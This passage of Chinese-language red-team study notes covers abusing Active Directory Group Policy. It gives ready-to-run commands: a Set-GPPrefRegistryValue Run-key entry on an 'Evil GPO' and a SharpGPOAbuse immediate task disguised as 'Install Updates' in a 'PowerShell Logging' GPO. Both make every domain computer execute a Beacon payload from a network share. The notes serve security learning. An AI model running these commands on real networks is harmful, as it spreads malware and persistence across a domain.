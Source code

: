 3. 向 HKLM 或 HKCU 配置单元写入 autorun 值以在启动时执行 Beacon 有效负载

这里的意思是当域里的计算机启动时会执行我们在上面上传到```\\dc-2\software```里的updater.exe

```
powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\updater.exe" -Type ExpandString
```

4. 登录域内任何一台计算机，强制更新GPO，重启计算机验证

强制更新GPO
```
gpupdate /target:computer /force
```

# SharpGPOAbuse

SharpGPOAbuse允许将更广泛的“滥用”配置添加到 GPO。它无法创建 GPO，因此我们仍然必须使用 RSAT 执行此操作，或者修改我们已经拥有写入权限的 GPO。在此示例中，我们向 PowerShell 日志记录 GPO 添加了一个即时计划任务，该任务将在应用后立即执行。


```
execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\updater.exe" --GPOName "PowerShell Logging"
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660607725852.png)
